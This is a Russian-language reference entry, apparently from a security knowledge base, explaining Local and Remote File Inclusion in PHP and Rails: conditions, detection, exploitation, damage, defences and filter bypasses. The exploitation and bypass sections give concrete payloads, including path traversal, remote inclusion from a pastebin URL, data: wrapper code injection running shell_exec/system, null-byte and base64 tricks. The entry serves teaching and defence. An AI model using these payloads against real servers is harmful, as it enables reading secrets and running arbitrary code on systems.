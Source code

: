 

# уязвимость/атака

## Описание
Атака представляет из себя передачу неправильного имени файла в качестве параметра запроса. Она эксплуатирует недостаток валидации имен файлов, передаваемых в качестве параметра. Данная атака позволяет чтение/выполнение произвольного файла от имени сервера.


## Классификация
- **LFI (Local File Inclusion)** - чтение локального файла на сервере
- **RFI (Remote File Inclusion)** - исполнение удаленного файла или кода

## Условия
- ОС: любая
- Сервер: чтение файлов - любой, исполнение - позволяющий интерпретирование кода на лету.
- В коде есть функции включения/исполнения (`include` в php, `render` в ruby on rails, и т.д.) или возврат пользователю файла, имя которого передается в запросе.

## Детектирование
- Для выявления необходимо исследовать места, где в качестве параметров запроса имена файлов или конструкции, похожие на имена файлов.
-  Первым шагом является подстановка в качестве параметра имена фалов, часто встречающихся на серверах.
- Подставляются прямые ссылки на файлы и имен файлов без расширения.
- Проверяются особые протоколы сервера, например `data:` php.

## Эксплуатация
Пример уязвимого эндпоинта: `http://vulnerable?page=first`. В коде сервера встречается конструкция `include ($_GET['page'])`
1) При передаче параметра `first` будет выполнен код `include (first)`. Если файл содержит код на php он будет выполнен.
2) Есть возможность передать произвольное имя файла, не обязательно предназначенного для вывода пользователю.
3) При передаче параметра вида `page=../../../../../dir/file` есть возможность выхода за пределы стандартного каталога.
4) Есть возможность читать не только локальные, но и файлы из сети. Например при передаче `page=https://pastebin.com/raw/CzHLDP7F` (в данном файле содержится код `<?php phpinfo(); ?>`) будет выведена информация о сервере.
5) Можем передать код для исполнения напрямую, используя параметр вида `page=data:,<?php some_code ?>`
6) Исполнение shell-команды: `page=data:,<?php shell_exec(command) ?>`/`page=data:,<?php system(command) ?>` или аналогичный код в удаленном файле.

### Инструменты
- [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Ущерб
Возможна следующая эксплуатация данной уязвимости:
- Чтение файлов не предназначенных для чтения сторонними людьми (файлы конфигурации, логи сервера, исходный код продукта).
- Кража баз данных, если они находятся на той же машине.
- Возможность применения XSS.
- Выполнение произвольного кода на сервере.

## Защита
### Основные меры
- Исключение включения файлов, имена которых получены от пользователя.
- Фильтрация имен файлов по белому списку.

### Превентивные меры
- Фильтрация передаваемых имена файлов, так чтобы они могли находиться только в определенной локальной директории.
- Минимально необходимые права для пользователей веб-приложений.
- Запрет включения удаленных файлов и использования оберток php.

## Дополнительно
[https://nvisium.com/blog/2016/01/26/rails-dynamic-render-to-rce-cve-2016-0752.html](https://nvisium.com/blog/2016/01/26/rails-dynamic-render-to-rce-cve-2016-0752.html)

## Обход защиты
- Передача `%00` в конце параметра для отброса приписываемого окончания.
- Использование `data:;base64,base64_encoded_code` или аналогичной функциональности для обхода фильтров.
- Использование обрезания длинных имен [(информация)](https://xakep.ru/2009/09/17/49508/).
- Использование специальных файлов (/proc, con).
- Использование ошибок поиска файлов и коротких имен DOS. [(информация)](https://xakep.ru/2011/07/03/55787/).